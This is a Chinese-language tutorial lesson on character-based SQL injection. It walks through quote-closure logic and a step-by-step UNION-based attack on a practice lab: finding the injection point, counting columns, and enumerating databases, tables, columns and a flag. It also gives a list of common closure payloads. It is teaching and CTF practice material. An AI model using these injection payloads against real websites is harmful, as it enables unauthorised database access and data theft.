

# 2.3、sql注入之字符型注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、前言

本节课程中将会讲解单引号、双引号以及字符型报错注入三小节的内容。

## 三、什么是字符型注入

字符型注入就是把输入的参数当做字符串对数据库进行查询，字符型注入在sql语句中都采用单引号括起来。字符型注入与数字型注入最大的区别是数字类型不需要单引号闭合，而字符型串类型需要单引号闭合。

这里解释一下为什么需要闭合

以我们的靶场为例，链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1

查看一下网站源码，可以后台sql语句如下:

再这里我们利用 or 1=1 来验证网站是否存在注入，如果我们不进行闭合,链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1 or 1=1 --+

这个链接的后台sql语句

>SELECT * FROM users WHERE id='1  or 1=1 --+' LIMIT 0,1

由此可以得知，1前面的单引号没有被闭合。由于拼接了非法了sql语句，数据库无法执行,故无法注入成功。我们是想在数据库中查询出我们想要的数据，就需要对其进行闭合。现构造链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' or 1=1 --+

此链接的后台sql如下：

SELECT * FROM  users WHERE id='1 ’ or 1=1 --+' LIMIT 0,1

因--+后面被注释，我们讲前半部分带入数据库中执行,如下图可以发现执行成功。将or 1=1 换成其他的sql语句便可以从数据库查询出我们需要的数据。

## 四、字符型单引号注入实战

靶场地址：http://39.98.88.18:8080/sql/Less-1/index.php?id=1

若有细节不懂的地方，可以翻看前几次课程，或者随时在星球内提问。

## #1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

## #2.报错信息分析

报错语句分析：

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

报错语句中一共有五个引号，去除最外面两个标示错误位置的引号，还有三个，1左边一个，右边两个，我们刚刚在1后面添加了一个引号。由此可以得知，这是单引号字符型报错注入。

## #3.进行闭合

我们尝试用or 1=1 进行闭合。构造链接如下

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' or 1=1 --+

构造成功

## #4.判断列数

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' order by 4--+

## #5.判断回显位置

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1' union select 1,2,3--+

## #6.查询数据名

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(schema_name),3 from information_schema.schemata--+

## #7.查询列名

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security '--+

## #8.查询表名

> http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(column_name),3 from information_schema.columns where table_name= 'flag '--+

## #9.查询数据

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1'union select 1,flag,3 from flag--+

成功查询出数据。

## 五、其他类型字符串注入漏洞

在实际的渗透中,字符型注入并不都是由单引号闭合。还有双引号，单括号，双括号，或者前几种组合等可能，下面提供一份常见的闭合列表

> or 1=1 --+

> 'or 1=1 --+

> "or 1=1 --+

> )or 1=1 --+

> ')or 1=1 --+

> ") or 1=1 --+

> "))or 1=1 --+

以上这些类型的注入与我们上文的单引号注入漏洞并无本质的区别，唯一的区别就是在注入时闭合方式的不同，其他与上述相同。在后面的习题中会给出相应的练习题，请大家自行尝试，然后在稍后的我会给出解题文档。

## 六、课后习题

单引号字符型注入：

>http://39.98.88.18/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B

单引号+单括号字符型注入：

>http://39.98.88.18/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5

双引号+单括号注入

>http://39.98.88.18/challenges#%E5%8F%8C%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5
